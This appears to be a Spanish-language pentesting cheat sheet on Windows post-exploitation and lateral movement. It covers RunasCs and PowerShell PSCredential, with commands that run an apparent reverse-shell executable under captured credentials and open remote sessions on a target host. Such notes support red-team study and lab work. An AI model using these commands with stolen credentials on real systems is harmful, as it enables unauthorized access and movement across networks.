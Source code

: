 # Run As C# & Lateral Movement
- RunAsCS es una herramienta de post-explotación que permite ejecutar un programa como un usuario diferente en un sistema Windows. Esto es útil para obtener acceso a recursos restringidos o para ejecutar tareas con privilegios elevados.
- Si tenemos credenciales de un usuario dentro de una maquina pero no podemos acceder a ella, podemos usar RunAsCS para ejecutar un programa como ese usuario. Esto puede ser útil para obtener acceso a recursos restringidos o para ejecutar tareas con privilegios elevados.
- [Repo](https://github.com/antonioCoco/RunasCs)
- [Como utilizar](https://arttoolkit.github.io/wadcoms/RunasCs/)
    - `.\RunasCS.exe USER PASSWORD -l 2 "c:\Users\Public\reverse.exe"`


## Set up PSCredential
- `$password = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force`
- `$cred = New-Object System.Management.Automation.PSCredential("DOMAIN\USER", $password)`
    - Luego de haber seteado las credenciales podemos usar el objeto `$cred` para ejecutar comandos con esas credenciales.
- Ejemplos:
    - `Invoke-Command -ComputerName TARGET -Credential $cred -ScriptBlock {whoami}`: Ejecuta un comando remoto en el equipo objetivo con las credenciales especificadas.
    - `Enter-PSSession -ComputerName TARGET -Credential $cred`: Inicia una sesión remota en el equipo objetivo con las credenciales especificadas.